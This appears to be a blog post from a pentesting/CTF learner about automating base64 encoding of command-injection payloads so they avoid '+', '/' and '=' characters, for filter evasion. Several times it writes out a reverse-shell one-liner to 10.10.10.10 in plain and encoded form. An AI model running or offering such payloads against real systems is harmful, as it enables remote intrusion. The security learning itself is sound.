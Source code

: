 # The base64 special character madness
I originally started thinking about the problem with payload encoding watching [ippsec](https://www.youtube.com/@ippsec). In videos containing any sort of web command injection vulnerability ippsec usually manually adds spaces to the un-encoded payload to remove all special characters from the encoded version:
```bash
$ echo -n 'sh -i >& /dev/tcp/10.10.10.10/139 0>&1' | base64
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTAuMTAvMTM5IDA+JjE=

$ echo -n 'sh -i >& /dev/tcp/10.10.10.10/139  0>&1' | base64
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTAuMTAvMTM5ICAwPiYx
```
Notice the extra space. This works, but it is a manual step that you need to perform for every payload you create and even the slightest changes to the payload often require more messing about. So i thought to my self “Why not write a script for this?” and down the rabbit hole i went…

*I was somewhat hesitant to post this as i’m not sure how much value my ramblings would provide for a potential reader. The solutions discussed here aren’t a one-size-fits-all and may require significant modifications or adaptations to bypass filtering or simply just work on a given target.*
## Automation
Okay so easy enough right:

* b64 encode
* take index of ’+' or '/'
* add space …

Right, that’s not going to work. One b64 character encodes 6 bits of information while an ASCII character encodes 8. That’s why you can see the equal sign at the end of first b64 string in the code block above.
```bash
$ echo -n 'sh -i >& /dev/tcp/10.10.10.10/139 0>&1' | wc -c
38

$ echo -n 'sh -i >& /dev/tcp/10.10.10.10/139  0>&1' | wc -c
39
```
This is because the payload without the space cannot be cleanly divided into 6 bit chunks:

38 * 8 / 6 = 50.666666666666664

39 * 8 / 6 = 52.0

and so padding is added. Though you may ask, if that padding is really needed, and it turns out, that, not really?
```bash
$ echo -n 'c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTAuMTAvMTM5IDA+JjE=' | base64 -d
sh -i >& /dev/tcp/10.10.10.10/139 0>&1

$ echo -n 'c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTAuMTAvMTM5IDA+JjE' | base64 -d
sh -i >& /dev/tcp/10.10.10.10/139 0>&1base64: invalid input

$ echo -n 'c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTAuMTAvMTM5IDA+JjE' | base64 -d 2>/dev/null
sh -i >& /dev/tcp/10.10.10.10/139 0>&1
```
The base64 utility warns us about invalid input, but it still produces the expected output. And the warning can just be ignored by piping stderr into /dev/null. So why bother?
